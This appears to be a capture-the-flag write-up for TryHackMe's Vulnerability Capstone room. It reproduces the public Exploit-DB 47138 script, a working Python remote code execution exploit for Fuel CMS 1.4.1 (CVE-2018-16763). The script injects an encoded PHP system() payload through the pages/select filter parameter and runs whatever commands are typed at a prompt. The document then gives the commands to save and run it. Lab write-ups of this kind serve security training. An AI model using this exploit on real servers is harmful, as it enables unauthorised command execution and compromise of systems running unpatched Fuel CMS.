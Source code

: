 [Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone)

*Apply the knowledge gained throughout the Vulnerability Module in this challenge room.*

<img width="959" alt="image" src="https://github.com/user-attachments/assets/91e456f5-2524-4bcf-a59d-8e1b74898f40" />

<img width="959" alt="image" src="https://github.com/user-attachments/assets/f7a8e60f-cbd5-4292-ab8d-d72b02e43f93" />

[CVE-2018-16763 Detail](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)

[fuel CMS 1.4.1 - Remote Code Execution (1)](https://www.exploit-db.com/exploits/47138)

```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

```
nano 47138.py
```

<img width="959" alt="image" src="https://github.com/user-attachments/assets/e5e52303-d3a1-4aa7-b62d-e9a2fa0e0dbf" />

```
python 47138.py
```

<img width="956" alt="image" src="https://github.com/user-attachments/assets/a2b79f16-aac5-461c-aab4-0ae0843f3623" />

![image](https://github.com/user-attachments/assets/b6d385c6-6614-4c62-8991-88e40fd722f3)

